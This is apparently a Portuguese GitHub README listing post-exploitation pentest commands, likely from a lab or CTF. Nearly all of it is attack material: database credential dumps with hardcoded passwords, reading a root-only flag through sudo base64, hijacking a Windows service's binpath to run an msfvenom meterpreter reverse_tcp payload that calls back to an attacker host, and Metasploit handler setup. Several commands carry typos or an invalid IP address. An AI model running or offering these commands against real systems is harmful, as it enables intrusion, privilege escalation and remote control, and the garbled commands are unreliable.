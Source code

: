 # posexploracao
Lista de comandos relacionados a pentest

sqlite3
.tables
select * from Users


rbscheat -i 172.16.1000.11:2223 -l bash

echo "select * from mysql.user;" | mysql -h 127.0.0.1 -uwordpress -pskade 

echo "select * from wordpress.wp_users;" | mysql -h 127.0.0.1 -uwordpress -pskade 

export TERM=xterm

sudo base64 /root/flag.txt | base64 -d

acesschk.exe -uqmv .\tyranus-op 

sc config raxus-service obj=".\LocalSystem"

msvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.100.210 lport=443 -f exe -o invasao.exe
sc config raxus-service binpath="C:\users\tyranus-op\invasao.exe"

service postgresql start

use multi/handler

set AutorunScript post/windows/manager/migrate/




